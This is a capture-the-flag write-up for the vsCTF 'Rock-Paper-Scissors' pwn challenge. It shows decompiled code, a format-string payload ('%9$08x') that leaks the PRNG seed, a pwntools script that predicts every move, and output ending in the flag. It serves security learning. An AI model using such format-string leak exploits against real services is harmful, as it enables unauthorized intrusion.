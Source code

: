 ```yaml
---
author: micronoyau
layout: post
title: "Rock-Paper-Scissors"
date: 2023-09-25 12:00:00 +0200
tags: pwn vsctf
excerpt_separator: <!--more-->
---
```


In this challenge, we are given a rock-paper-scissors binary and must win 50 times in a row to get the flag.

## Disassembly and analysis

First, let's analyze this game with ghidra. The main function consists at its core of the following :

```
fd = open("/dev/urandom",0);
if (fd < 0) {
  printf("Opening /dev/urandom failed");
  exit(1);
}
read(fd,&seed,4);
close(fd);
srand(seed);
printf("Enter your name: ");
fgets(name,0x14,stdin);
printf("Hi ");
printf(name);
puts("Let\'s play some Rock Paper Scissors!");
puts("If you beat me 50 times in a row I\'ll give you a special prize.");
for (i = 0; i < 0x32; i = i + 1) {
  res = rps();
  if (res != '\x01') {
    puts("You didn\'t beat me enough times. Too bad!");
    exit(1);
  }
}
win();
```

The vulnerability is immediatly identified as a format string. We could try to rewrite the return address of rps to redirect to win, but a quick checksec shows us its not going to be easy because this binary is position-independent :
```
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```
Moreover, the buffer for `name` is only 20 bytes long so we need to find an efficient payload. Lets look at the `rps` function :
```
undefined8 rps(void)
{
  int r;
  undefined8 uVar1;
  long in_FS_OFFSET;
  char user_choice;
  char rand_choice;
  int local_18;
  undefined2 rp;
  undefined s;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  user_choice = '\0';
  rp = 0x7072;
  s = 0x73;
  r = rand();
  rand_choice = *(char *)((long)&rp + (long)(r % 3));
  puts("Let\'s play!");
  do {
    if (((user_choice == 'r') || (user_choice == 'p')) || (user_choice == 's')) {
      if ((((user_choice == 'r') && (rand_choice == 's')) ||
          ((user_choice == 'p' && (rand_choice == 'r')))) ||
         ((user_choice == 's' && (rand_choice == 'p')))) {
        puts("You win!");
        uVar1 = 1;
      }
      else {
        puts("You lost.");
        uVar1 = 0;
      }
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return uVar1;
    }
    printf("Enter your choice (r/p/s): ");
    __isoc99_scanf(&DAT_0010203b,&user_choice);
    do {
      local_18 = getchar();
      if (local_18 == 10) break;
    } while (local_18 != -1);
  } while( true );
}
```

The interesting part is the random choice selection : basically, we could rewrite it
```
rps = "rps";
r = rand();
rand_choice = rps[r%3];
```

## Pseudorandom number generators

In C, the `rand` function produces pseudo-random outputs from a chosen value called seed. The pseudorandom generator is initialized by calling the function `srand` at the beginning of function `main`, and the seed is chosen by reading `/dev/urandom` which produces pseudorandom numbers on linux devices. If we could somehow know the seed, we could then predict the entire rock-paper-scissors sequence. Let's use the format string vulnerability for this !

## Exploiting the format string bug

We find that the seed can be accessed as the 9th word on the stack when calling `printf(name)`. We then automate the winning process using pwntools et voilà !

```
from ctypes import CDLL
from pwn import *

conn = remote('vsc.tf', 3094)

print(conn.recvuntil(b": "))
conn.sendline(b'%9$08x')
seed = int(str(conn.recvline()[3:-1])[2:-1], base=16)

print(conn.recvline())
print(conn.recvline())

libc = CDLL("libc.so.6")
libc.srand(seed)

choices = "rps"

for i in range(50):
    print(conn.recvline())
    print(conn.recvuntil(b': '))
    r = choices[libc.rand()%3]
    if r == 'r':
        conn.sendline(b'p')
    elif r == 'p':
        conn.sendline(b's')
    else:
        conn.sendline(b'r')
    print(conn.recvline())

print(conn.recv())
```

The result is
```
[micronoyau@pwnixos:~/Documents/vsctf/RPS]$ python res.py 
[+] Opening connection to vsc.tf on port 3094: Done
b'Enter your name: '
b"Let's play some Rock Paper Scissors!\n"
b"If you beat me 50 times in a row I'll give you a special prize.\n"
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
[...]
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b'vsctf{Wh4t_da_h3ck_br0_gu355_g0d_kn0ws_4ll_my_m0v3s_:(((}\n\n'
[*] Closed connection to vsc.tf port 3094
```
Got the flag :)
